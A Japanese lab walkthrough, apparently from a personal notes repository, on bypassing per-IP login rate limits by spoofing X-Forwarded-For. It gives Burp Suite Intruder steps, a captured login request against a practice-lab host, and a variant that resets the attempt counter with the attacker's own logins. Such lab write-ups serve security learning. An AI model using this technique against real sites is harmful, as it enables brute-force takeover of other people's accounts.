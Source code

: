 # 同一 IP アドレスによるアクセス数制限のあるページを攻撃

※ハッキングラボで実験しています。一般的な Web サイトでは使用しないでください

プロキシ、ロードバランサーを通して Web サーバにアクセスすると、Web サーバから見たクライアント IP アドレスはプロキシのものになります。それを解決するために、プロキシ、ロードバランサでクライアントの IP アドレスを記録します。仲介サーバが増えると、末尾に IP アドレスを付加していきます。

```html
X-Forwarded-For: <client>, <proxy1>, ...</proxy1></client>
```

ただし、クライアントで http リクエストを改変し、X-Forwarded-For の IP アドレスを自由に変更することが出来ます。(IP スプーフィング)

Web サイトによっては、同一 IP アドレスでのログイン試行に制限を儲けている場合がありますが、このような Web サイトに対してブルートフォース攻撃を仕掛けることを考えます。

- 1. Burp Suite を起動します
- 2. Proxy タブからブラウザーを起動
- 3. 攻撃対象 Web サイトにログインします
- 4. HttpHistory からログインリクエストを選択し、Send to intruder する
     ![1](https://github.com/pea-sys/Til/assets/49807271/83046723-79d7-4240-9a30-e5ca77a8684b)

* 5. intruder で ip アドレスとログイン id をパラメータ化します

```
POST /login HTTP/2
Host: 0a3600e804248a3c8088cb4600de0090.web-security-academy.net
Cookie: session=VfKHOww2FZ2QhRBzyYx6Iu1Z7mBNlcaT
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0a3600e804248a3c8088cb4600de0090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3600e804248a3c8088cb4600de0090.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
X-Forwarded-For: §ip§

username=§id§&password=pass
```

- 6. Attack type を Pitchfork にします
- 7. Payload タブを選択し、1 つ目のパラメータに数字をセットし、2 つ目のパラメータに id リストをセットします
     ![2](https://github.com/pea-sys/Til/assets/49807271/4dc8259a-6dd5-4213-ae0a-d0353263e29b)

- 8. Start Atack 押下で攻撃を開始します。

※別パターンとして、ログインに成功すると試行回数をリセットする仕組みを入れている Web サイトの場合は、自分のアカウントのログインを都度攻撃に挟みこむことでブルートフォース攻撃が出来る
